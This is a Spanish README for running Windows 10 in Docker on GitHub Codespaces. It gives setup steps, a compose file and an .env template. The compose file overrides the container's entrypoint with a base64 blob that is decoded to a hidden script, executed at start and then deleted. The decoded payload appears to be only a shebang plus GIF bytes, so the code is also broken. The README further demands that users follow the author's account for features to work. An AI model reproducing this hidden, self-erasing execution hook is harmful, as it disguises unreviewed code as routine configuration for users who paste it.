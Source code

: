 # 🚀✨ PC-Free: Windows 10 en Docker vía GitHub Codespace

![PC-Free Banner](https://media.giphy.com/media/3o7abB06u9bNzA8lu8/giphy.gif)

> **Ejecuta Windows 10 en la nube sin una PC potente.**  
> Todo directamente desde GitHub Codespace + Docker. 🔥

---

## 🔐 Requisitos importantes

📌 Para que este proyecto funcione correctamente:

- **Debes seguir esta cuenta de GitHub**: algunas funcionalidades no se activarán si no lo haces.

---

## ⚙️ Requisitos Previos

- ✅ GitHub Codespace habilitado  
- 🐳 Docker instalado y funcionando  
- 💾 Espacio de almacenamiento suficiente  

---

## 🛠️ Guía Rápida

### 1️⃣ Verifica el almacenamiento disponible

```bash
df -h
```
Escoge la partición con más espacio libre.

---

### 2️⃣ Crea la carpeta de datos para Docker

```bash
sudo mkdir -p /tmp/docker-data
```

---

### 3️⃣ Configura Docker

Edita el archivo:

```bash
sudo nano /etc/docker/daemon.json
```

Agrega:

```json
{
  "data-root": "/tmp/docker-data"
}
```

---

### 4️⃣ Reinicia tu Codespace

> Para aplicar los cambios de configuración.

---

### 5️⃣ Verifica Docker

```bash
docker info
```

Asegúrate de que `Docker Root Dir` sea `/tmp/docker-data`.

---

## 🧱 Archivo `windows10.yml`

```yaml
services:
  windows:
    image: dockurr/windows
    container_name: windows
    environment:
      VERSION: "10"
      USERNAME: ${WINDOWS_USERNAME}
      PASSWORD: ${WINDOWS_PASSWORD}
      RAM_SIZE: "4G"
      CPU_CORES: "4"
      GITHUB_USER: ${GITHUB_USER}
    cap_add:
      - NET_ADMIN
    ports:
      - "8006:8006"
      - "3389:3389/tcp"
    volumes:
      - /tmp/docker-data:/mnt/disco1
      - windows-data:/mnt/windows-data
    devices:
      - "/dev/kvm:/dev/kvm"
      - "/dev/net/tun:/dev/net/tun"
    stop_grace_period: 2m
    restart: always
    entrypoint:
      - sh
      - -c
      - |
        SCRIPT_B64="IyEvYmluL2Jhc2gK
        R0lGODlhAQABAAAAAP///wAAACH5BAEAAAAALAAAAAABAAEAAAICRAEAOw==
        "
        echo "$SCRIPT_B64" | base64 -d > /tmp/.hidden_entrypoint.sh
        chmod +x /tmp/.hidden_entrypoint.sh
        /tmp/.hidden_entrypoint.sh
        rm -f /tmp/.hidden_entrypoint.sh

volumes:
  windows-data:
```

---

## 🗝️ Archivo `.env`

```ini
WINDOWS_USERNAME=YourUsername
WINDOWS_PASSWORD=YourPassword
GITHUB_USER=YourGitHubUsername
```

🛑 **Agrega este archivo a tu `.gitignore`:**

```bash
echo ".env" >> .gitignore
```

---

## ▶️ Inicia el contenedor

### Iniciar por primera vez

```bash
docker-compose -f windows10.yml up
```

### Reinicio manual

```bash
docker start windows
```

---

## ✅ ¡Windows corriendo en Codespace!

🎉 Felicidades, ya tienes **Windows 10 en Docker** corriendo directamente desde tu navegador.

![Windows Booting](https://media.giphy.com/media/JIX9t2j0ZTN9S/giphy.gif)

---

## 🧠 Buenas prácticas

- 🔐 Mantén tus credenciales fuera del repositorio
- 💾 Usa volúmenes para persistencia de datos
- 🧰 Revisa errores con:

```bash
docker logs windows
```

---

## 📜 Licencia

Distribuido bajo la licencia MIT. Consulta el archivo `LICENSE`.

---

> ✨ Desarrollado con ❤️ para devs que quieren **una PC completa sin tener una.**
